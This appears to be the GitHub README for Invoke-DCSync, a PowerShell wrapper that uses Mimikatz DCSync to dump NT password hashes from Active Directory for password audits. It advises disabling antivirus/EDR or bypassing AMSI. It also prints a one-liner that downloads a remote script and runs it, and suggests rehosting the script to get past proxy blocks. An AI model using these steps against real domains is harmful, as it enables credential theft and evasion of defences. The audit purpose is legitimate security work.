 <div align="center" width="100%">
    <h1>Invoke-DCSync</h1>
    <p>PowerShell Script to DCSync NT Password Hashes from Active Directory for Password Auditing</p><p>
    <a target="_blank" href="https://github.com/l4rm4nd"><img src="https://img.shields.io/badge/maintainer-LRVT-orange" /></a>
    <a target="_blank" href="https://GitHub.com/Haxxnet/Invoke-DCSync/graphs/contributors/"><img src="https://img.shields.io/github/contributors/Haxxnet/Invoke-DCSync.svg" /></a><br>
    <a target="_blank" href="https://GitHub.com/Haxxnet/Invoke-DCSync/commits/"><img src="https://img.shields.io/github/last-commit/Haxxnet/Invoke-DCSync.svg" /></a>
    <a target="_blank" href="https://GitHub.com/Haxxnet/Invoke-DCSync/issues/"><img src="https://img.shields.io/github/issues/Haxxnet/Invoke-DCSync.svg" /></a>
    <a target="_blank" href="https://github.com/Haxxnet/Invoke-DCSync/issues?q=is%3Aissue+is%3Aclosed"><img src="https://img.shields.io/github/issues-closed/Haxxnet/Invoke-DCSync.svg" /></a><br>
        <a target="_blank" href="https://github.com/Haxxnet/Invoke-DCSync/stargazers"><img src="https://img.shields.io/github/stars/Haxxnet/Invoke-DCSync.svg?style=social&label=Star" /></a>
    <a target="_blank" href="https://github.com/Haxxnet/Invoke-DCSync/network/members"><img src="https://img.shields.io/github/forks/Haxxnet/Invoke-DCSync.svg?style=social&label=Fork" /></a>
    <a target="_blank" href="https://github.com/Haxxnet/Invoke-DCSync/watchers"><img src="https://img.shields.io/github/watchers/Haxxnet/Invoke-DCSync.svg?style=social&label=Watch" /></a><p>
    <a href="https://www.buymeacoffee.com/LRVT" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
</div>

## 💎 Features

Invoke-DCSync is a PowerShell wrapper script around popular tools such as PowerView, Invoke-Mimikatz and ADRecon. 

It automates the task of dumping NT password hashes from an Active Directory environment. The script was designed for Active Directory password audits, where extracted password hashes undergo a cracking process in order to outline password strength and policy weaknesses. 

The script will parse the output of Mimikatz's DCSync and create two separate folders with output files:
- A directory `CUSTOMER` with detailed information about an Active Directory user and its NT password hash. The import file in this directory will later be used to establish a reference between an AD user and a cracked password hash.
- A directory `PTF` with information about NT password hashes only. This folder may be shared with an external security vendor that conducts offline password cracking. No user information are stored in this directory. Only plain NT hashes.

## 🎓 Usage

To utilize this PowerShell script, it's recommended to disable Antivirus/EDR. Alternatively, if no advanced EDR is in use, it may be sufficient to bypass AMSI for the current PowerShell process.

The script must be run in the context of an Active Directory domain user with DCSync rights. Usually, a Domain Administrator (DA) user account is privileged enough and recommended for ease of use. You may obtain a PowerShell terminal in the context of such domain user via the following PowerShell command:

````powershell
runas.exe /netonly /noprofile /user:example.com\dcsyncuser "powershell.exe -ep bypass"
````

Other from that, it's a matter of running the PowerShell .PS1 script:

````powershell
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Haxxnet/Invoke-DCSync/main/Invoke-DCSync.ps1')
````

You will be prompted about the target AD domain. Confirm to start the DCSync extraction process of NT password hashes. 

As soon as the script finishes, a new Windows file explorer will open automatically and display the relevant output directories.

## 🔎 FAQ

**Q**: Why do I have to disable Antivirus/EDR/AMSI?

**A**: This PowerShell wrapper script heavily relies on popular tooling such as PowerView, Mimikatz and ADRecon. Those tools are known and flagged by AV vendors to be malicious. If you run this PowerShell script with enabled AV/EDR/AMSI, the script will likely be detected as malicious and blocked from being executed.

---

**Q**: Why are there two separate directories?

**A**: This PowerShell wrapper script was designed to automate the initial process of extracting NT password hashes in order to conduct password cracking. The script will parse Mimikatz's DCSync output into separate directories to establish some kind of privacy. The `CUSTOMER` folder can remain on the customer side, which contains sensitive information about AD users and the belonging password hashes. The `PTF` folder on the other hand 'only' contains NT password hashes without a reference to the actual AD user account that is linked to this password hash.

---

**Q**: On which IT system must this script be run?

**A**: This PowerShell wrapper script can be run on any domain-joined computer in the target AD environment. It's also possible to execute it from an unjoined computer system. Just make sure that your IT system can talk to the Domain Controller (DC), uses the proper DNS servers to resolve hostnames and that you spawn a PowerShell terminal in the context of a DCSync privileged AD account (e.g. Domain Administrator).

---

**Q**: The computer on which the PowerShell script shall run does not have an Internet connection. How can I run the script?

**A**: You can download the GitHub repo locally onto disk. However, AV/EDR must be disabled as the scripts will likely be flagged as malicious. Then proceed by executing the `Local-Invoke-DCSync.ps1` script. It references all necessary third

---

**Q**: The computer on which the PowerShell script shall run uses a company proxy that blocks the GitHub domain. How can I run the script?

**A**: You can host the scripts on a different domain under your control, which is not blacklisted. Alternatively, see the above Q&A to run the script locally. Note that you likely have to download or copy PowerView, Invoke-Mimikatz and ADRecon manually onto disk.

---

**Q**: Do I have to conduct some form of cleanup after the script was run?
**A**: You may want to restart the computer from which the script was run to clear memory (RAM). Other from that, just ensure that the exported data is treated as very sensitive and stored securely.
